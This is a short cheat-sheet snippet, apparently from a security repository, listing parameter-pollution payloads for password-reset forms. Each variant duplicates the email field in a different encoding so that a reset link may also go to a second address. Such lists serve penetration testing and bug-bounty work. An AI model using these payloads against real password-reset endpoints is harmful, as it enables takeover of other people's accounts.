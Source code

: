 📢Parameter pollution on password reset

email=v@g.com&email=a@g.com
email[]=v@g.com&email[]=a@g.com
email=v@g.com%20email=a@g.com
email=v@g.com|email=a@g.com
email=v@g.com,a@g.com
email=v@g.com%20a@g.com
{"email":"v@g.com","email":"a@g.com"}
{"email":["v@g.com","a@g.com"]}


